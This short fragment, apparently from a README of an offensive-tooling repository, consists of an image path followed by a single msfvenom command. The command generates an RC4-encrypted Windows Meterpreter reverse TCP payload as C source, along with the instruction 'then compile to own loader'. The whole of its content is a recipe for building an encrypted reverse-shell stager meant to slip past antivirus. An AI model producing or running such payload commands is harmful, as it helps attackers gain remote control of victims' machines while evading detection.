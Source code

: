 msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f c > /path/to/output.c

then compile to own loader
